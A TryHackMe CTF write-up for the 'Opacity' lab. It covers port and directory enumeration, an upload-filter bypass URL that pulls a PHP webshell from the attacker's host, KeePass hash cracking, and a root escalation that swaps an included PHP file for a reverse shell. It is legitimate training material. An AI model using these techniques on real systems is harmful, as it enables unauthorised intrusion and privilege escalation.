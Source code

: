 ```yaml
---
title: "Opacity"
date: 2025-02-14
image: /assets/img/tryhackme/Opacity/Opacity_image.jpg
description: Writeup of the TryHackMe-CTF Opacity
categories: [Tryhackme, Easy]
tags: [linux, web, php, fileupload, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Opacity</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Opacity is a Boot2Root made for pentesters and cybersecurity enthusiasts.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/opacity">https://tryhackme.com/room/opacity</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Opacity.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.42.149                       
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-14 06:23 EST
  Nmap scan report for 10.10.42.149
  Host is up (0.043s latency).
  Not shown: 65531 closed tcp ports (conn-refused)
  PORT    STATE SERVICE
  22/tcp  open  ssh
  80/tcp  open  http
  139/tcp open  netbios-ssn
  445/tcp open  microsoft-ds

  Nmap done: 1 IP address (1 host up) scanned in 35.25 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,139,445 10.10.42.149
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-14 06:24 EST
  Nmap scan report for 10.10.42.149
  Host is up (0.039s latency).

  PORT    STATE SERVICE     VERSION
  22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
  |   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
  |_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
  80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
  | http-cookie-flags: 
  |   /: 
  |     PHPSESSID: 
  |_      httponly flag not set
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  | http-title: Login
  |_Requested resource was login.php
  139/tcp open  netbios-ssn Samba smbd 4.6.2
  445/tcp open  netbios-ssn Samba smbd 4.6.2
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Host script results:
  | smb2-time: 
  |   date: 2025-02-14T11:24:26
  |_  start_date: N/A
  |_clock-skew: -6s
  |_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
  | smb2-security-mode: 
  |   3:1:1: 
  |_    Message signing enabled but not required

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 13.89 seconds
```
From here I proceeded the analysis port by port.

## Port 445 Analysis

I analyzed the service with enum4linux, but didn't found any leads to proceed with.

## Port 80 Analysis

The webserver had a login page:

![Webserver Login](/assets/img/tryhackme/Opacity/thm_opacity_1.jpg)

Lacking information about potential credential combinations, I proceeded with a directory enumeration:
```bash
$ gobuster dir --url http://10.10.42.149/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.42.149/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /css                  (Status: 301) [Size: 310] [--> http://10.10.42.149/css/]
  /cloud                (Status: 301) [Size: 312] [--> http://10.10.42.149/cloud/]
```

### /cloud Analysis

Navigating to `/cloud` revealed an upload dialog:

![Webserver Upload](/assets/img/tryhackme/Opacity/thm_opacity_2.jpg)

Above the input field, a small text read `External Link`. I started an HTTP server using Python and provided the URL for a test image. The image was displayed on the webpage, and the direct link was revealed. I continued trying to upload a webshell. After testing several input filter bypasses I was able to upload a php shell with the following bypass:
```html
http://[attackerip]/shell.php#test.jpg
```

![Webserver Uploaded Webshell](/assets/img/tryhackme/Opacity/thm_opacity_3.jpg)

```bash
$ whoami      
  www-data
$ cd /home
$ ls
  sysadmin
$ cd sysadmin
$ ls
  local.txt
  scripts
$ cat local.txt
  cat: local.txt: Permission denied
```

## Privilege Escalation sysadmin

I searched for files which belonging to `sysadmin` which revealed an interesting file:
```bash
www-data@opacity:/home/sysadmin$ find / -user sysadmin -type f 2>/dev/null
/opt/dataset.kdbx
```

After downloading the file I used `john` for cracking the password:

```bash
$ keepass2john dataset.kdbx > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
  [removed]        (dataset)     
  Session completed.
```

With the password I was able to open the Keepass file and found the password for user `sysadmin`. 

![Keepass](/assets/img/tryhackme/Opacity/thm_opacity_4.jpg)

I successfully connected using `ssh`:

```bash
sysadmin@opacity:~$ cat local.txt 
  [removed]
```

## Privilege Escalation root

The user `sysadmin` had a folder called `scripts` in his home directory. The permissions are interesting:
```bash
drwxr-xr-x 2 sysadmin root     4096 Feb 14 17:51 lib
-rw-r----- 1 root     sysadmin  519 Jul  8  2022 script.php
```

This allowed the sysadmin user to modify anything within the lib directory, while `script.php` was executed with root privileges. I searched for a connection inside of the `script.php` and found the following command:
```php
require_once('lib/backup.inc.php');
```

I renamed the `backup.inc.php` file and created a new one which was a php reverse shell. Shortly after, I received an incoming connection:

```bash
# whoami
	root
# cd /root
# ls
  proof.txt
  snap
# cat proof.txt
  [removed]
```

solved! :)
